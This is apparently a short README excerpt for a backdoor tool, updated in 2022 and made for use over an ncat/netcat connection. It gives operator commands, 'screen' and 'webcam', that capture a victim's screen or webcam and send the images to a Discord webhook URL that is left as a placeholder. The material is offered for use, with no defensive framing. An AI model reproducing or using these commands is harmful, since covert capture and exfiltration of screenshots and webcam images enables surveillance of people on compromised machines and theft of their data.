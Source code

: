 THIS BACKDOOR WAS UPDATED ON 25-07-2022 / 01-12-2022

For Screenshot:
```SHELL
[*] >> screen https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```
For Webcam:
```SHELL
[*] >> webcam https://discord.com/api/webhooks/your_webhook_url_that_u_copied
```

**NOTE:- This is made for --> NCAT/NETCAT**
